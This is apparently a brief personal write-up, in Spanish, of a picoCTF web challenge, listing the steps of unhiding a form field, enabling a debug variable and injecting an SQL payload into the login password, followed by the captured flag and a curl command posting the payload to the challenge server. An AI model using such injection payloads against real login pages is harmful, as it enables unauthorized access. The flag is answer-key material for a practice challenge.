 Se le quita el hidden al cuadro oculto
Se cambia la variable por 1
Se inyecta en la consulta

	Password: a' BE 1==1;
	
Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}

-------------
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "pasword=' BE 1=1;&debug=1"

